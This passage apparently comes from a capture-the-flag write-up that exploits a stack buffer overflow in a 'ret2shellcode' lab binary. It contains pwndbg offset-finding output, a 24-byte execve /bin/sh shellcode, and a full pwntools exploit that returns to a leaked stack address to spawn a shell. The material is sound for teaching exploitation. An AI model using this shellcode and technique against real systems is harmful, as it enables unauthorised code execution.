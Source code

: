 ```bash
pwndbg> cyclic -l faaaaaaa -n 8
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```
 
We have our offset at 40. It takes exactly 40 bytes of input to reach the return address (RIP) on the stack. So 41st byte onwards we will start overwriting the return address. To confirm it we can do this:

```bash
pwndbg> cyclic 40
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaa
pwndbg> r
Starting program: /home/at0m/ret2shellcode 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7fffc33b24a0
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaaBBBB
```

![pwn6.png](/img/pwn6.png)

We can either see from its address which is `42` which means `B` or we can just look at `RSP` and see `BBBB` there.

We can't have shell code more than 40 bytes. We can this shell code from [here](https://www.exploit-db.com/exploits/42179). Since this shell code is of 24 bytes we will need to add other 16 bytes of junk to fill the space. You can read this shellcode assembly from the link.

```c
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```

Exploit in Python.

```python
#!/usr/bin/python3

from pwn import *

# Load the ELF binary
elf = context.binary = ELF('./ret2shellcode')

# Start the local process
io = process()

# Wait for the leaked stack address (assuming program prints it like: "... 0x7fffd...")
io.recvuntil(b'... ')
leak = int(io.recv(14), 16)  # Read 14-byte hex string and convert to integer

# Classic 24-byte /bin/sh shellcode for execve syscall
shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

# Construct the payload:
# [ shellcode ][ padding to reach RIP ][ leaked address (return to shellcode) ]
payload = shellcode + cyclic(16) + pack(leak)

# Send the payload to the program
io.sendline(payload)

# Open interactive session to use the shell if exploit is successful
io.interactive()
```
